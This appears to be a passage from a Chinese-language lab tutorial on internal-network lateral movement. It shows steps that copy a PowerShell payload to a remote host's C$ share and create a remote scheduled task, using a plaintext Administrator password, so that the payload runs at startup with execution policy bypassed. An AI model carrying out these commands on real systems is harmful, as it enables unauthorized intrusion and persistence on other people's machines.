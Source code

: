 <img src="内网横向移动/image-20230830121318811.png" alt="image-20230830121318811" style="zoom:67%;" />	



### 4.上传文件至目标主机

执行如下命令将文件上传至目标主机的C盘 

```
copy payload.ps1 \\192.168.47.133\c$
```

![image-20230830150911630](内网横向移动/image-20230830150911630.png)	



### 5.创建计划任务 

执行如下命令创建一个名为"MyTask"的计划任务，当目标系统启动时则执行我们的powershell脚本

```
schtasks /create /s 192.168.47.133 /u Administrator /p qq123456 /tn MyTask /sc onstart /tr "powershell.exe -ExecutionPolicy Bypass -File C:\payload.ps1" /f
```

![image-20230830155655844](内网横向移动/image-20230830155655844.png)

